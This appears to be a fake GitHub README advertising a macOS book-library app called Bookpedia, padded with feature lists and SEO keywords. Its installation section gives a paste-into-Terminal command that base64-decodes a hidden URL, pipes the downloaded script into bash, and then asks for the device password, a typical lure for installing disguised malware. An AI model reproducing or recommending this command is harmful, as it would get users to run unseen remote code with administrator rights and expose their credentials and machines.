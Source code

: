 # 📖 Bookpedia for Mac — Personal Book Library, Organized & Offline

📌 About Bookpedia  
Bookpedia is a lightweight yet powerful macOS app that helps you catalog and manage your book collection — whether it's physical, digital, or both.  
You can add entries manually or via ISBN search, sync with online databases, create smart collections, and track lending history. Ideal for book lovers, students, collectors, and educators, Bookpedia gives you full control over your data with customizable fields, covers, notes, and tags.  
With native macOS design and fast performance, everything runs locally and securely, with no forced cloud storage or third-party sync — your library, your rules.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
   /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://static.macupdate.com/screenshots/320082/m/bookpedia-screenshot.png?v=1637828202)  
- ![](https://img.utdstc.com/screen/991/07c/99107ceae7f8459d600c716a6d0d3e56db7362b5d02904240bb79902c4755b4b:600)  

## 🎯 Key Features  
⚡️ ISBN Lookup: Search and auto-fill book details from online sources.  
🔒 Local Library: All data is stored and managed directly on your Mac.  
⚙️ Lending Tracker: Know who borrowed what and when it’s due back.  
🚀 Fast Search & Filtering: Instantly find books using keywords or tags.  
🎨 Custom Fields: Add your own fields, ratings, genres, and notes.  
📊 Smart Collections: Automatically organize books by rules you define.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 300 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`bookpedia mac` · `mac book catalog app` · `personal library manager macos` · `mac isbn lookup tool` · `mac offline book collection` · `book database mac` · `track borrowed books mac` · `mac reading tracker` · `macos smart book organizer` · `custom fields for books mac` · `mac digital library manager` · `book collector tool mac` · `mac library catalog software` · `mac physical book tracker` · `mac bibliophile tool`
